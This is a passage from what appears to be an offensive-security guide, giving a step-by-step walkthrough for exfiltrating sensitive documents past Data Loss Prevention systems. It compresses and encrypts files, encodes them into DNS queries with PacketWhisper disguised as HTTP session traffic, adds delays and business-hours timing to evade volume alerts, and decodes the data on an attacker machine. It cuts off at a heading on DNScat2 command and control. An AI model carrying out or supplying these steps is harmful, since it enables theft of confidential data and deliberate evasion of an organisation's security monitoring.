 This example demonstrates how to exfiltrate sensitive data from an environment with Data Loss Prevention (DLP) systems in place:

1. **Prepare the sensitive data for exfiltration**:

```bash
# Compress and encrypt the data first to minimize size and hide content
tar -czf data.tar.gz /path/to/sensitive/documents/
openssl enc -aes-256-cbc -salt -in data.tar.gz -out data.enc -k "SecretPassword123"
```

2. **Configure PacketWhisper for maximum stealth**:

```bash
python3 packetWhisper.py

# Select Option 1: Encode file for exfiltration
# Choose file: data.enc
# Select cloaking mode 6: HTTP Session Capture
# This will make the DNS queries look like captured HTTP sessions
# Select DNS transfer mode 2: Direct DNS Queries as One-Liner
```

3. **Execute the exfiltration gradually to avoid triggering volume-based alerts**:

```bash
# PacketWhisper will generate a shell script - modify it to add delays
sed -i 's/$/\nsleep 3/' dnsExfil.sh

# Execute the script during normal business hours to blend with typical traffic
./dnsExfil.sh
```

4. **Decode the captured data on your attack machine**:

```bash
# After capturing the DNS traffic
python3 packetWhisper.py

# Select Option 2: Decode data from capture file
# Select the packet capture file
# Save the decoded file

# Decrypt and extract
openssl enc -aes-256-cbc -d -in data.enc -out data.tar.gz -k "SecretPassword123"
tar -xzf data.tar.gz
```

This approach helps bypass DLP systems because:
- The data never crosses the network as conventional file transfers
- The content is encrypted before encoding, preventing content inspection
- The DNS queries appear as normal HTTP session captures in logs
- The gradual exfiltration prevents triggering volume-based alerts

## DNScat2: Command and Control Over DNS
